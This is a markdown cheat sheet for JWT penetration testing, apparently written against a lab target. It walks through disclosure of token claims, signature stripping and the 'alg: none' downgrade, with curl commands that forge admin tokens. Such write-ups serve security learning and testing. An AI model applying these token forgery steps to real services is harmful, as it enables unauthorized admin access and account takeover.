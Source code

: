 # JSON Web Tokens JWT Penetration Testing

## Tools: Burpsuite, cURL, https://jwt.io/ (JWT Decoder and editor), Cyberchef https://gchq.github.io/CyberChef/

## Attacks:

### 1) Sensitive Information Disclosure

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 (Authenticate with a user and grab the JWT token from that user)

### Go to jwt.io to decode the token and check the values inside the claim portion of the token. We may find sensitive information like internal resources, etc.

### 2) Signature is not verified

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 (Grab the JWT token)

 - curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user (Authenticate with the JWT token)

### Go to jwt.io and try to verify the user WITHOUT the signature by removing the signature part leaving ONLY the dot (.).

### Try to authenticate with the SIGNATURELESS token again to check if you can verify the user even without the signature.

### Modify any values we may find in the token. Example:

#### Change the admin value from 0 to 1, then verify as admin with the newly modified JWT token.

 - curl -H 'Authorization: Bearer MODIFIED_SIGNATURELESS_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin


### 3) Signature algorithm downgrade to NONE

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 (Grab the JWT Token)

 - curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user (Authenticate with the JWT Token)

### Go to jwt.io to modify the values inside the claim portion of the token: Admin from 0 to 1 for example.

 - curl -H 'Authorization: Bearer MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin

### If the response of the server contains: "Signature verification failed" we can go for the downgrade attack to None algorithm.

### Go to cyberchef, then take the HEADER part of the JWT token and use the JWT decode recipe to get the plain text of the JWT header.

### Grab the plain text JWT header, change the Alg to None and encode it with base64.

### After this, put the base64 encoded header we just made at the BEGINNING of our modified JWT token to replace the previous header with the None algorithm.

 - curl -H 'Authorization: Bearer ALG_NONE_HEADER_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin (Get admin access)


